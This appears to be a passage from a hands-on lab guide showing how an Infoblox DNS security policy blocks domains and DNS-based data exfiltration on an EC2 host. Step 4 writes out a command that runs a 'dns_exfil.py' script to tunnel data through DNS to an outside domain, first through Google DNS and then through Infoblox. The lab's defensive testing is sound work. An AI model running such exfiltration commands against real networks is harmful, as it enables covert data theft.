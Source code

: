 ![Screenshot 2025-07-01 at 13.39.13.png](https://play.instruqt.com/assets/tracks/atmmwsclkofd/1356e48269998e5d3e923b8fccb1c51a/assets/Screenshot%202025-07-01%20at%2013.39.13.png)

### Step 2: Check DNS Settings

Once inside the EC2 host, confirm it’s using the Infoblox DNS server:

```
cat /etc/resolv.conf
```

![Screenshot 2025-07-01 at 13.39.54.png](https://play.instruqt.com/assets/tracks/atmmwsclkofd/a9bdf0f65c4ad5b23244069f37c8394a/assets/Screenshot%202025-07-01%20at%2013.39.54.png)

> [!IMPORTANT]
> ✅ You should see: 10.10.10.3


### Step 3: Basic DNS Resolution Test

Try resolving a known domain:

```
dig infoblox.com
```

You should receive a valid response ✅.

![Screenshot 2025-07-01 at 13.52.30.png](https://play.instruqt.com/assets/tracks/atmmwsclkofd/a11e9035382fa6785a058eed36f5348f/assets/Screenshot%202025-07-01%20at%2013.52.30.png)

Now try resolving a blocked domain (e.g., adult content):

```
dig bet365.com
```

You should see
status: NXDOMAIN

![Screenshot 2025-07-01 at 13.53.36.png](https://play.instruqt.com/assets/tracks/atmmwsclkofd/49775eb5033ba87d8c0008e306649129/assets/Screenshot%202025-07-01%20at%2013.53.36.png)

⛔ Confirming the policy is blocking it.


### Step 4: Simulate DNS Exfiltration

Use the test script to simulate exfiltration via Google DNS (expected to succeed):

```
python3 dns_exfil.py --resolver 8.8.8.8 --domain exfil.highvelocitynetworking.com --chunks 30
```

☠️ Result: You should see successful exfiltration.

![Screenshot 2025-07-01 at 13.43.42.png](https://play.instruqt.com/assets/tracks/atmmwsclkofd/d36ec2c2e33e3e1cd5c3d2c5288ca625/assets/Screenshot%202025-07-01%20at%2013.43.42.png)



Now test again using Infoblox DNS:

```
python3 dns_exfil.py --resolver 10.10.10.3 --domain exfil.highvelocitynetworking.com --chunks 30
```
